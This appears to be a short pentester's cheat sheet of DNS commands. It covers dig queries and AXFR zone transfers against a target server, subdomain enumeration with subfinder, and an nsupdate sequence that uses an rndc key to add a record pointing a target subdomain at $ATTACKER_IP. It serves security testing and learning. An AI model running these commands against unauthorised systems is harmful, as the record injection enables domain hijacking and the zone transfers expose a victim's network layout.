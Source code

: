 Get All resolves for local DNS Server:
---
#dig #dns #zone #zone-transfer 

```shell
dig @$TARGET_IP -x $TARGET_IP
```

```shell
dig $TARGET_IP
```

```shell
dig any $TARGET_DOMAIN @$TARGET_IP
```

zone transfer:
```shell
dig axfr $TARGET_DOMAIN @$TARGET_IP
```
---
---
```bash
subfinder -d $TARGET_DOMAIN -all -cs | tee domains.unf.txt | cut -d "," -f 1 > domains.txt
```
Add subdomain to a DNS zone:
---
#nsupdate #subdomain #add-domain

Use "nsupdate" to generate config and talk to DNS server:

```shell
nsupdate
```
and then:
```nsupdate
server $TARGET_IP 53
key hmac-sha256:rndc-key $KEY
zone $TARGET_DOMAIN
update add $SUBDOMAIN.$TARGET_DOMAIN 86400 A $ATTACKER_IP
send
```
---
Zone Transfer using host:
---
#zone #transfer #zone-transfer #dns 

```shell
host -l $TARGET_DOMAIN $TARGET_IP
```
---
